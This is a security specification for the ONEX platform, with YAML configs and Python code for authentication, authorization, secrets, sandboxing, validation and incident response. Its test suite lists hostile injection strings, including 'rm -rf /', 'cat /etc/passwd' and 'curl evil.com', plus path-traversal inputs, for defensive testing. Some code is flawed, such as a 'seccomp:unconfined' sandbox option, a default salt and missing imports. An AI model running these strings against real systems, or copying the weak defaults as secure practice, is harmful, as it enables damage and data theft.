

# ONEX Security Specification

> **Status:** Canonical  
> **Last Updated:** 2025-01-27  
> **Purpose:** Define comprehensive security protocols, authentication, authorization, secrets management, and secure coding practices for the ONEX platform  
> **Audience:** Security engineers, developers, system administrators, DevOps teams  
> **Enforcement:** All ONEX components must implement these security standards

---

## Overview

This document defines the security architecture, protocols, and practices for the ONEX platform. All components, nodes, and infrastructure must implement these security standards to ensure a robust, secure, and trustworthy execution environment.

---

## Security Architecture

### Defense in Depth

The ONEX security model implements multiple layers of protection:



### Security Principles

1. **Zero Trust**: Never trust, always verify
2. **Least Privilege**: Grant minimal necessary permissions
3. **Defense in Depth**: Multiple security layers
4. **Fail Secure**: Default to secure state on failure
5. **Audit Everything**: Comprehensive logging and monitoring

---

## Authentication

### Supported Authentication Methods

#### JWT Token Authentication
```yaml
# JWT configuration
jwt:
  issuer: "https://auth.example.com"
  audience: "onex-api"
  algorithm: "RS256"
  public_key_url: "https://auth.example.com/.well-known/jwks.json"
  token_expiry: 3600  # 1 hour
  refresh_expiry: 86400  # 24 hours
```

#### API Key Authentication
```yaml
# API key configuration
api_keys:
  enabled: true
  header_name: "X-API-Key"
  key_length: 32
  expiry_days: 90
  rate_limit:
    requests_per_minute: 1000
    burst_limit: 100
```

#### Certificate-Based Authentication
```yaml
# mTLS configuration
mtls:
  enabled: true
  ca_cert_path: "/etc/ssl/ca/ca.crt"
  cert_path: "/etc/ssl/certs/client.crt"
  key_path: "/etc/ssl/private/client.key"
  verify_client: true
  cipher_suites:
    - "TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384"
    - "TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256"
```

### Authentication Implementation

```python
from typing import Optional, Dict, Any
from datetime import datetime, timedelta
import jwt
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import rsa

class AuthenticationService:
    """Centralized authentication service for ONEX platform."""
    
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.jwt_config = config.get("jwt", {})
        self.api_key_config = config.get("api_keys", {})
    
    def validate_jwt_token(self, token: str) -> Optional[Dict[str, Any]]:
        """Validate JWT token and return claims.
        
        Args:
            token: JWT token string
            
        Returns:
            Token claims if valid, None otherwise
        """
        try:
            # Decode and validate token
            claims = jwt.decode(
                token,
                self._get_public_key(),
                algorithms=[self.jwt_config["algorithm"]],
                audience=self.jwt_config["audience"],
                issuer=self.jwt_config["issuer"]
            )
            
            # Additional validation
            if not self._validate_claims(claims):
                return None
                
            return claims
            
        except jwt.InvalidTokenError:
            return None
    
    def validate_api_key(self, api_key: str) -> Optional[Dict[str, Any]]:
        """Validate API key and return associated metadata.
        
        Args:
            api_key: API key string
            
        Returns:
            Key metadata if valid, None otherwise
        """
        # Implementation depends on storage backend
        # Could be database, Redis, etc.
        pass
    
    def generate_api_key(self, user_id: str, permissions: List[str]) -> str:
        """Generate new API key for user.
        
        Args:
            user_id: User identifier
            permissions: List of permissions for this key
            
        Returns:
            Generated API key
        """
        import secrets
        
        api_key = secrets.token_urlsafe(self.api_key_config["key_length"])
        
        # Store key metadata
        self._store_api_key_metadata(api_key, {
            "user_id": user_id,
            "permissions": permissions,
            "created_at": datetime.utcnow(),
            "expires_at": datetime.utcnow() + timedelta(
                days=self.api_key_config["expiry_days"]
            )
        })
        
        return api_key
```

---

## Authorization

### Role-Based Access Control (RBAC)

#### Role Definitions
```yaml
# RBAC configuration
roles:
  admin:
    description: "Full system access"
    permissions:
      - "nodes:*"
      - "registry:*"
      - "config:*"
      - "users:*"
  
  developer:
    description: "Node development and testing"
    permissions:
      - "nodes:read"
      - "nodes:execute"
      - "nodes:create"
      - "registry:read"
      - "config:read"
  
  operator:
    description: "System operation and monitoring"
    permissions:
      - "nodes:read"
      - "nodes:execute"
      - "registry:read"
      - "monitoring:*"
      - "config:read"
  
  readonly:
    description: "Read-only access"
    permissions:
      - "nodes:read"
      - "registry:read"
      - "config:read"
```

#### Permission System
```python
from enum import Enum
from typing import Set, List
from dataclasses import dataclass

class Permission(Enum):
    """Enumeration of system permissions."""
    NODES_READ = "nodes:read"
    NODES_EXECUTE = "nodes:execute"
    NODES_CREATE = "nodes:create"
    NODES_DELETE = "nodes:delete"
    REGISTRY_READ = "registry:read"
    REGISTRY_WRITE = "registry:write"
    CONFIG_READ = "config:read"
    CONFIG_WRITE = "config:write"
    USERS_READ = "users:read"
    USERS_WRITE = "users:write"
    MONITORING_READ = "monitoring:read"
    MONITORING_WRITE = "monitoring:write"

@dataclass
class User:
    """User with roles and permissions."""
    user_id: str
    roles: Set[str]
    permissions: Set[Permission]
    
    def has_permission(self, permission: Permission) -> bool:
        """Check if user has specific permission."""
        return permission in self.permissions
    
    def has_any_permission(self, permissions: List[Permission]) -> bool:
        """Check if user has any of the specified permissions."""
        return any(perm in self.permissions for perm in permissions)

class AuthorizationService:
    """Authorization service for permission checking."""
    
    def __init__(self, rbac_config: Dict[str, Any]):
        self.roles = rbac_config.get("roles", {})
        self._build_permission_cache()
    
    def check_permission(
        self, 
        user: User, 
        permission: Permission,
        resource: Optional[str] = None
    ) -> bool:
        """Check if user has permission for resource.
        
        Args:
            user: User object
            permission: Required permission
            resource: Optional resource identifier
            
        Returns:
            True if user has permission, False otherwise
        """
        # Check direct permission
        if user.has_permission(permission):
            return True
        
        # Check resource-specific permissions
        if resource and self._check_resource_permission(user, permission, resource):
            return True
        
        return False
    
    def require_permission(
        self, 
        user: User, 
        permission: Permission,
        resource: Optional[str] = None
    ) -> None:
        """Require user to have permission, raise exception if not.
        
        Args:
            user: User object
            permission: Required permission
            resource: Optional resource identifier
            
        Raises:
            PermissionDeniedError: If user lacks permission
        """
        if not self.check_permission(user, permission, resource):
            raise PermissionDeniedError(
                f"User {user.user_id} lacks permission {permission.value}"
            )
```

### Capability-Based Security

#### Execution Context Capabilities
```python
from typing import Protocol, Set, Any
from dataclasses import dataclass

class Capability(Protocol):
    """Protocol for security capabilities."""
    
    def check_access(self, resource: str, operation: str) -> bool:
        """Check if capability allows access to resource."""
        ...

@dataclass
class FileCapability:
    """File system access capability."""
    allowed_paths: Set[str]
    operations: Set[str]  # read, write, execute
    
    def check_access(self, resource: str, operation: str) -> bool:
        """Check file access permission."""
        if operation not in self.operations:
            return False
        
        # Check if resource path is allowed
        for allowed_path in self.allowed_paths:
            if resource.startswith(allowed_path):
                return True
        
        return False

@dataclass
class NetworkCapability:
    """Network access capability."""
    allowed_hosts: Set[str]
    allowed_ports: Set[int]
    protocols: Set[str]  # http, https, tcp, udp
    
    def check_access(self, resource: str, operation: str) -> bool:
        """Check network access permission."""
        # Parse resource (e.g., "https://api.example.com:443")
        # Implementation depends on resource format
        pass

class SecureExecutionContext:
    """Execution context with capability-based security."""
    
    def __init__(self, capabilities: List[Capability]):
        self.capabilities = capabilities
    
    def check_file_access(self, path: str, operation: str) -> bool:
        """Check if file access is allowed."""
        for cap in self.capabilities:
            if isinstance(cap, FileCapability):
                if cap.check_access(path, operation):
                    return True
        return False
    
    def check_network_access(self, url: str, operation: str) -> bool:
        """Check if network access is allowed."""
        for cap in self.capabilities:
            if isinstance(cap, NetworkCapability):
                if cap.check_access(url, operation):
                    return True
        return False
```

---

## Secrets Management

### Secret Storage and Retrieval

#### Hierarchical Secret Sources
```python
from abc import ABC, abstractmethod
from typing import Optional, Dict, Any
from pathlib import Path
import os

class SecretSource(ABC):
    """Abstract base class for secret sources."""
    
    @abstractmethod
    def get_secret(self, name: str) -> Optional[str]:
        """Retrieve secret by name."""
        pass

class EnvironmentSecretSource(SecretSource):
    """Retrieve secrets from environment variables."""
    
    def __init__(self, prefix: str = "ONEX_SECRET_"):
        self.prefix = prefix
    
    def get_secret(self, name: str) -> Optional[str]:
        """Get secret from environment variable."""
        env_name = f"{self.prefix}{name.upper()}"
        return os.getenv(env_name)

class FileSecretSource(SecretSource):
    """Retrieve secrets from filesystem."""
    
    def __init__(self, secrets_dir: Path = Path("/run/secrets")):
        self.secrets_dir = secrets_dir
    
    def get_secret(self, name: str) -> Optional[str]:
        """Get secret from file."""
        secret_file = self.secrets_dir / name
        if secret_file.exists():
            return secret_file.read_text().strip()
        return None

class VaultSecretSource(SecretSource):
    """Retrieve secrets from HashiCorp Vault."""
    
    def __init__(self, vault_url: str, auth_token: str):
        self.vault_url = vault_url
        self.auth_token = auth_token
    
    def get_secret(self, name: str) -> Optional[str]:
        """Get secret from Vault."""
        # Implementation using hvac library
        pass

class SecretManager:
    """Centralized secret management."""
    
    def __init__(self, sources: List[SecretSource]):
        self.sources = sources
    
    def get_secret(self, name: str) -> Optional[str]:
        """Get secret from first available source."""
        for source in self.sources:
            secret = source.get_secret(name)
            if secret is not None:
                return secret
        return None
    
    def require_secret(self, name: str) -> str:
        """Get secret or raise exception if not found."""
        secret = self.get_secret(name)
        if secret is None:
            raise SecretNotFoundError(f"Secret '{name}' not found")
        return secret
```

### Secret Encryption and Key Management

#### Encryption Service
```python
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
import base64
import os

class EncryptionService:
    """Service for encrypting and decrypting sensitive data."""
    
    def __init__(self, master_key: Optional[str] = None):
        if master_key:
            self.key = master_key.encode()
        else:
            self.key = self._derive_key_from_password()
        
        self.fernet = Fernet(base64.urlsafe_b64encode(self.key[:32]))
    
    def _derive_key_from_password(self) -> bytes:
        """Derive encryption key from password."""
        password = os.getenv("ONEX_MASTER_PASSWORD", "").encode()
        salt = os.getenv("ONEX_SALT", "default_salt").encode()
        
        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            iterations=100000,
        )
        return kdf.derive(password)
    
    def encrypt(self, data: str) -> str:
        """Encrypt string data."""
        encrypted = self.fernet.encrypt(data.encode())
        return base64.urlsafe_b64encode(encrypted).decode()
    
    def decrypt(self, encrypted_data: str) -> str:
        """Decrypt string data."""
        encrypted_bytes = base64.urlsafe_b64decode(encrypted_data.encode())
        decrypted = self.fernet.decrypt(encrypted_bytes)
        return decrypted.decode()
```

---

## Secure Node Execution

### Sandboxing and Isolation

#### Container-Based Isolation
```yaml
# Security configuration for node execution
node_security:
  sandbox_enabled: true
  container_runtime: "docker"
  
  security_options:
    - "no-new-privileges:true"
    - "seccomp:unconfined"  # Or custom seccomp profile
  
  resource_limits:
    memory: "512Mi"
    cpu: "500m"
    disk: "1Gi"
    network_bandwidth: "100Mbps"
  
  filesystem:
    read_only_root: true
    tmpfs_mounts:
      - "/tmp"
      - "/var/tmp"
    
  capabilities:
    drop_all: true
    add:
      - "NET_BIND_SERVICE"  # Only if needed
  
  user:
    uid: 1000
    gid: 1000
    supplementary_groups: []
```

#### Process Isolation
```python
import subprocess
import tempfile
import os
from pathlib import Path
from typing import Dict, List, Any

class SecureNodeExecutor:
    """Secure executor for ONEX nodes."""
    
    def __init__(self, security_config: Dict[str, Any]):
        self.config = security_config
        self.sandbox_enabled = security_config.get("sandbox_enabled", True)
    
    def execute_node(
        self, 
        node_path: Path, 
        args: List[str],
        context: SecureExecutionContext
    ) -> Dict[str, Any]:
        """Execute node in secure environment."""
        
        if self.sandbox_enabled:
            return self._execute_sandboxed(node_path, args, context)
        else:
            return self._execute_direct(node_path, args, context)
    
    def _execute_sandboxed(
        self, 
        node_path: Path, 
        args: List[str],
        context: SecureExecutionContext
    ) -> Dict[str, Any]:
        """Execute node in sandboxed environment."""
        
        # Create temporary directory for execution
        with tempfile.TemporaryDirectory() as temp_dir:
            temp_path = Path(temp_dir)
            
            # Set up secure environment
            env = self._create_secure_environment(context)
            
            # Build container command
            cmd = self._build_container_command(
                node_path, args, temp_path, context
            )
            
            # Execute with security constraints
            result = subprocess.run(
                cmd,
                env=env,
                capture_output=True,
                text=True,
                timeout=self.config.get("execution_timeout", 300)
            )
            
            return {
                "exit_code": result.returncode,
                "stdout": result.stdout,
                "stderr": result.stderr,
                "execution_time": result.args  # Placeholder
            }
    
    def _create_secure_environment(
        self, 
        context: SecureExecutionContext
    ) -> Dict[str, str]:
        """Create secure environment variables."""
        
        # Start with minimal environment
        secure_env = {
            "PATH": "/usr/local/bin:/usr/bin:/bin",
            "HOME": "/tmp",
            "USER": "onex",
            "SHELL": "/bin/sh"
        }
        
        # Add context-specific variables
        if hasattr(context, 'environment_variables'):
            for key, value in context.environment_variables.items():
                if self._is_safe_env_var(key, value):
                    secure_env[key] = value
        
        return secure_env
    
    def _build_container_command(
        self,
        node_path: Path,
        args: List[str],
        temp_path: Path,
        context: SecureExecutionContext
    ) -> List[str]:
        """Build Docker command for secure execution."""
        
        cmd = [
            "docker", "run",
            "--rm",
            "--read-only",
            "--no-new-privileges",
            f"--user={self.config['user']['uid']}:{self.config['user']['gid']}",
            f"--memory={self.config['resource_limits']['memory']}",
            f"--cpus={self.config['resource_limits']['cpu']}",
            "--network=none",  # No network by default
            f"--volume={node_path}:/app/node:ro",
            f"--volume={temp_path}:/tmp:rw",
            "--workdir=/app",
            "onex/node-runner:latest",
            "python", "/app/node"
        ]
        
        cmd.extend(args)
        return cmd
```

### Input Validation and Sanitization

```python
import re
from typing import Any, Dict, List
from pathlib import Path

class InputValidator:
    """Validator for node inputs and parameters."""
    
    def __init__(self):
        # Define safe patterns
        self.safe_filename_pattern = re.compile(r'^[a-zA-Z0-9._-]+$')
        self.safe_path_pattern = re.compile(r'^[a-zA-Z0-9/._-]+$')
        self.uuid_pattern = re.compile(
            r'^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$'
        )
    
    def validate_filename(self, filename: str) -> bool:
        """Validate filename for safety."""
        if not filename or len(filename) > 255:
            return False
        
        # Check for dangerous patterns
        dangerous_patterns = ['..', '/', '\\', '\0']
        if any(pattern in filename for pattern in dangerous_patterns):
            return False
        
        return self.safe_filename_pattern.match(filename) is not None
    
    def validate_path(self, path: str, allowed_prefixes: List[str]) -> bool:
        """Validate file path against allowed prefixes."""
        if not path:
            return False
        
        # Normalize path
        normalized = Path(path).resolve()
        
        # Check against allowed prefixes
        for prefix in allowed_prefixes:
            prefix_path = Path(prefix).resolve()
            try:
                normalized.relative_to(prefix_path)
                return True
            except ValueError:
                continue
        
        return False
    
    def validate_node_args(self, args: List[str]) -> bool:
        """Validate node arguments for safety."""
        for arg in args:
            # Check for command injection patterns
            dangerous_chars = [';', '|', '&', '$', '`', '(', ')']
            if any(char in arg for char in dangerous_chars):
                return False
            
            # Check length
            if len(arg) > 1000:
                return False
        
        return True
    
    def sanitize_string(self, value: str, max_length: int = 1000) -> str:
        """Sanitize string input."""
        if not isinstance(value, str):
            raise ValueError("Input must be string")
        
        # Truncate if too long
        if len(value) > max_length:
            value = value[:max_length]
        
        # Remove null bytes and control characters
        value = ''.join(char for char in value if ord(char) >= 32 or char in '\t\n\r')
        
        return value
```

---

## Network Security

### TLS Configuration

```yaml
# TLS configuration
tls:
  enabled: true
  min_version: "1.2"
  max_version: "1.3"
  
  cipher_suites:
    - "TLS_AES_256_GCM_SHA384"
    - "TLS_CHACHA20_POLY1305_SHA256"
    - "TLS_AES_128_GCM_SHA256"
    - "TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384"
    - "TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256"
  
  certificates:
    cert_file: "/etc/ssl/certs/onex.crt"
    key_file: "/etc/ssl/private/onex.key"
    ca_file: "/etc/ssl/ca/ca.crt"
  
  client_auth:
    enabled: false  # Set to true for mTLS
    verify_mode: "require"
```

### Network Policies

```yaml
# Network security policies
network_policies:
  default_deny: true
  
  allowed_ingress:
    - from:
        - namespaceSelector:
            matchLabels:
              name: onex-system
      ports:
        - protocol: TCP
          port: 8000
        - protocol: TCP
          port: 8080
  
  allowed_egress:
    - to:
        - namespaceSelector:
            matchLabels:
              name: onex-registry
      ports:
        - protocol: TCP
          port: 5432  # PostgreSQL
    
    - to: []  # Allow DNS
      ports:
        - protocol: UDP
          port: 53
```

---

## Audit and Monitoring

### Security Event Logging

```python
import logging
import json
from datetime import datetime
from typing import Dict, Any, Optional

class SecurityAuditLogger:
    """Logger for security events and audit trails."""
    
    def __init__(self, logger_name: str = "onex.security"):
        self.logger = logging.getLogger(logger_name)
        self.logger.setLevel(logging.INFO)
        
        # Configure structured logging
        handler = logging.StreamHandler()
        formatter = logging.Formatter(
            '%(asctime)s - %(name)s - %(levelname)s - %(message)s'
        )
        handler.setFormatter(formatter)
        self.logger.addHandler(handler)
    
    def log_authentication_event(
        self,
        user_id: str,
        event_type: str,  # login, logout, failed_login
        source_ip: str,
        user_agent: Optional[str] = None,
        additional_data: Optional[Dict[str, Any]] = None
    ) -> None:
        """Log authentication event."""
        
        event_data = {
            "event_category": "authentication",
            "event_type": event_type,
            "user_id": user_id,
            "source_ip": source_ip,
            "user_agent": user_agent,
            "timestamp": datetime.utcnow().isoformat(),
            "additional_data": additional_data or {}
        }
        
        self.logger.info(
            f"Authentication event: {event_type}",
            extra={"security_event": json.dumps(event_data)}
        )
    
    def log_authorization_event(
        self,
        user_id: str,
        resource: str,
        action: str,
        result: str,  # allowed, denied
        reason: Optional[str] = None
    ) -> None:
        """Log authorization event."""
        
        event_data = {
            "event_category": "authorization",
            "user_id": user_id,
            "resource": resource,
            "action": action,
            "result": result,
            "reason": reason,
            "timestamp": datetime.utcnow().isoformat()
        }
        
        self.logger.info(
            f"Authorization {result}: {action} on {resource}",
            extra={"security_event": json.dumps(event_data)}
        )
    
    def log_node_execution_event(
        self,
        user_id: str,
        node_name: str,
        node_version: str,
        execution_id: str,
        result: str,  # success, failure, timeout
        duration_ms: int
    ) -> None:
        """Log node execution event."""
        
        event_data = {
            "event_category": "node_execution",
            "user_id": user_id,
            "node_name": node_name,
            "node_version": node_version,
            "execution_id": execution_id,
            "result": result,
            "duration_ms": duration_ms,
            "timestamp": datetime.utcnow().isoformat()
        }
        
        self.logger.info(
            f"Node execution {result}: {node_name}@{node_version}",
            extra={"security_event": json.dumps(event_data)}
        )
```

### Security Metrics

```python
from prometheus_client import Counter, Histogram, Gauge

# Security metrics
authentication_attempts = Counter(
    'onex_authentication_attempts_total',
    'Total authentication attempts',
    ['method', 'result']
)

authorization_checks = Counter(
    'onex_authorization_checks_total',
    'Total authorization checks',
    ['resource_type', 'action', 'result']
)

node_execution_security = Counter(
    'onex_node_execution_security_events_total',
    'Security events during node execution',
    ['event_type', 'severity']
)

active_sessions = Gauge(
    'onex_active_sessions',
    'Number of active user sessions'
)

security_scan_duration = Histogram(
    'onex_security_scan_duration_seconds',
    'Time spent on security scans',
    ['scan_type']
)
```

---

## Vulnerability Management

### Dependency Scanning

```yaml
# Security scanning configuration
security_scanning:
  enabled: true
  
  dependency_scanning:
    tools:
      - "safety"      # Python dependencies
      - "npm audit"   # Node.js dependencies
      - "snyk"        # Multi-language
    
    schedule: "daily"
    fail_on_high: true
    fail_on_critical: true
  
  static_analysis:
    tools:
      - "bandit"      # Python security linting
      - "semgrep"     # Multi-language static analysis
    
    rules:
      - "security"
      - "owasp-top-10"
    
    exclude_paths:
      - "tests/"
      - "docs/"
  
  container_scanning:
    tools:
      - "trivy"
      - "clair"
    
    scan_on_build: true
    scan_on_deploy: true
```

### Security Testing

```python
import pytest
from unittest.mock import Mock, patch
from onex.security import AuthenticationService, AuthorizationService

class TestSecurityFeatures:
    """Security-focused test suite."""
    
    def test_authentication_rejects_invalid_tokens(self):
        """Test that invalid JWT tokens are rejected."""
        auth_service = AuthenticationService({
            "jwt": {
                "algorithm": "RS256",
                "audience": "test-audience",
                "issuer": "test-issuer"
            }
        })
        
        # Test various invalid tokens
        invalid_tokens = [
            "invalid.token.format",
            "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.invalid",
            "",
            None
        ]
        
        for token in invalid_tokens:
            assert auth_service.validate_jwt_token(token) is None
    
    def test_authorization_enforces_permissions(self):
        """Test that authorization properly enforces permissions."""
        auth_service = AuthorizationService({
            "roles": {
                "readonly": {
                    "permissions": ["nodes:read"]
                }
            }
        })
        
        user = User(
            user_id="test-user",
            roles={"readonly"},
            permissions={Permission.NODES_READ}
        )
        
        # Should allow read access
        assert auth_service.check_permission(user, Permission.NODES_READ)
        
        # Should deny write access
        assert not auth_service.check_permission(user, Permission.NODES_CREATE)
    
    def test_input_validation_prevents_injection(self):
        """Test that input validation prevents injection attacks."""
        validator = InputValidator()
        
        # Test command injection attempts
        malicious_inputs = [
            "file.txt; rm -rf /",
            "file.txt | cat /etc/passwd",
            "file.txt && curl evil.com",
            "file.txt $(whoami)",
            "file.txt `id`"
        ]
        
        for malicious_input in malicious_inputs:
            assert not validator.validate_node_args([malicious_input])
    
    def test_path_traversal_prevention(self):
        """Test that path validation prevents directory traversal."""
        validator = InputValidator()
        
        # Test path traversal attempts
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\windows\\system32",
            "/etc/passwd",
            "file.txt/../../../secret.txt"
        ]
        
        allowed_prefixes = ["/app/data", "/tmp"]
        
        for malicious_path in malicious_paths:
            assert not validator.validate_path(malicious_path, allowed_prefixes)
```

---

## Incident Response

### Security Incident Handling

```python
from enum import Enum
from dataclasses import dataclass
from typing import List, Dict, Any
from datetime import datetime

class IncidentSeverity(Enum):
    LOW = "low"
    MEDIUM = "medium"
    HIGH = "high"
    CRITICAL = "critical"

class IncidentType(Enum):
    AUTHENTICATION_FAILURE = "authentication_failure"
    AUTHORIZATION_BYPASS = "authorization_bypass"
    DATA_BREACH = "data_breach"
    MALICIOUS_CODE = "malicious_code"
    SYSTEM_COMPROMISE = "system_compromise"

@dataclass
class SecurityIncident:
    """Security incident record."""
    incident_id: str
    incident_type: IncidentType
    severity: IncidentSeverity
    description: str
    affected_systems: List[str]
    detected_at: datetime
    reported_by: str
    status: str  # open, investigating, resolved, closed
    
class IncidentResponseService:
    """Service for handling security incidents."""
    
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.incidents: Dict[str, SecurityIncident] = {}
    
    def create_incident(
        self,
        incident_type: IncidentType,
        severity: IncidentSeverity,
        description: str,
        affected_systems: List[str],
        reported_by: str
    ) -> str:
        """Create new security incident."""
        
        incident_id = self._generate_incident_id()
        
        incident = SecurityIncident(
            incident_id=incident_id,
            incident_type=incident_type,
            severity=severity,
            description=description,
            affected_systems=affected_systems,
            detected_at=datetime.utcnow(),
            reported_by=reported_by,
            status="open"
        )
        
        self.incidents[incident_id] = incident
        
        # Trigger automated response
        self._trigger_automated_response(incident)
        
        # Send notifications
        self._send_notifications(incident)
        
        return incident_id
    
    def _trigger_automated_response(self, incident: SecurityIncident) -> None:
        """Trigger automated incident response."""
        
        if incident.severity == IncidentSeverity.CRITICAL:
            # Immediate actions for critical incidents
            self._isolate_affected_systems(incident.affected_systems)
            self._revoke_active_sessions()
            self._enable_enhanced_monitoring()
        
        elif incident.severity == IncidentSeverity.HIGH:
            # Actions for high severity incidents
            self._increase_monitoring(incident.affected_systems)
            self._notify_security_team()
    
    def _isolate_affected_systems(self, systems: List[str]) -> None:
        """Isolate affected systems from network."""
        # Implementation depends on infrastructure
        pass
    
    def _revoke_active_sessions(self) -> None:
        """Revoke all active user sessions."""
        # Implementation depends on session management
        pass
```

---

## Compliance and Governance

### Security Policies

```yaml
# Security governance configuration
security_governance:
  policies:
    password_policy:
      min_length: 12
      require_uppercase: true
      require_lowercase: true
      require_numbers: true
      require_special_chars: true
      max_age_days: 90
      history_count: 12
    
    session_policy:
      max_duration_hours: 8
      idle_timeout_minutes: 30
      concurrent_sessions: 3
      require_mfa: true
    
    api_key_policy:
      max_age_days: 90
      rotation_warning_days: 7
      require_rotation: true
      min_entropy_bits: 128
  
  compliance:
    frameworks:
      - "SOC2"
      - "ISO27001"
      - "GDPR"
    
    audit_retention_days: 2555  # 7 years
    
    data_classification:
      public: "green"
      internal: "yellow"
      confidential: "orange"
      restricted: "red"
```

### Security Training and Awareness

```yaml
# Security training requirements
security_training:
  required_for_all: true
  
  modules:
    - name: "Secure Coding Practices"
      frequency: "annual"
      mandatory: true
    
    - name: "ONEX Security Architecture"
      frequency: "onboarding"
      mandatory: true
    
    - name: "Incident Response Procedures"
      frequency: "semi-annual"
      mandatory: true
    
    - name: "Data Protection and Privacy"
      frequency: "annual"
      mandatory: true
  
  assessment:
    passing_score: 80
    retake_allowed: true
    certification_valid_days: 365
```

---

## References

- [Authentication Protocols](./protocols.md#authentication)
- [Error Handling](./error_handling.md)
- [Monitoring and Observability](./monitoring.md)
- [Infrastructure Security](./infrastructure.md#security-configuration)

---

**Note:** This security specification is a living document that must be regularly updated to address emerging threats and vulnerabilities. All security implementations must be reviewed and approved by the security team. 